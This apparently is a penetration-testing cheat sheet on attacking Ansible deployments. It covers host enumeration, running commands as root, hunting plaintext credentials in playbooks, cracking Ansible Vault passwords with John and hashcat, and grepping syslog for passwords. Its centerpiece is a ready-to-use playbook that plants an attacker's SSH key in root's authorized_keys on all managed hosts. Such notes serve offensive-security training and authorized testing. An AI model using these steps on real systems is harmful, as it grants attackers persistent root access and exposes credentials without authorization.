 # Ansible

<details>

<summary>Enumeration</summary>

* Check if it's installed&#x20;
  *   ```bash
      ansible
      ```


* Find host inventory (Find group && hosts)
  *   ```bash
      cat /etc/ansible/hosts
      ```

      <figure><img src="../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Running Ad-hoc Commands</summary>

* Run as standard user
  * ```bash
    ansible <grp name> -a "whoami"
    ```

- Run as Root
  * ```bash
    ansible <grp name> -a "whoami" --become
    ```

</details>

<details>

<summary>Ansible Playbook</summary>

* Run command:
  *   ```bash
      ansible-playbook <playbook-name>
      ```


* Might contain plaintext credentials
  *

      <figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>


* Exploit weak perm --> Add attacker's SSH public keys to victims
  * ```yaml
    ---
    - name: Get system info
      hosts: all
      gather_facts: true
      become: yes
      tasks:
        - name: Display info
          debug:
              msg: "The hostname is {{ ansible_hostname }} and the OS is {{ ansible_distribution }}"

        - name: Create a directory if it does not exist
          file:
            path: /root/.ssh
            state: directory
            mode: '0700'
            owner: root
            group: root

        - name: Create authorized keys if it does not exist
          file:
            path: /root/.ssh/authorized_keys
            state: touch
            mode: '0600'
            owner: root
            group: root

        - name: Update keys
          lineinfile:
            path: /root/.ssh/authorized_keys
            line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
            insertbefore: EOF
    ```

</details>

<details>

<summary>Ansible Vault</summary>

* Might be present in playbook files
  *

      <figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>


* Copy vault-encrypted password
  *

      <figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>


* Convert to format used by John/Hashcat
  *   ```bash
      python3 /usr/share/john/ansible2john.py vault_password > vault.hash
      ```


* Crack with John
  *   ```bash
      john --wordlist=/usr/share/wordlists/rockyou.txt vault.hash
      ```


* OR Crack with Hashcat
  *   ```bash
      hashcat -m 16900 hash.txt rockyou.txt
      ```



      *

          <figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>


* In Ansible victim:
  * Copy original encrypted vault string to text file
    *

        <figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>


  * Pipe the encrypted vault string to ansible-vault decrypt
    *   ```
        cat pw.txt | ansible-vault decrypt
        ```



        *

            <figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Data Leakage via Ansible Modules</summary>

* Leak data to /var/log/syslog
  * ```bash
    cat /var/log/syslog | grep password
    ```

</details>
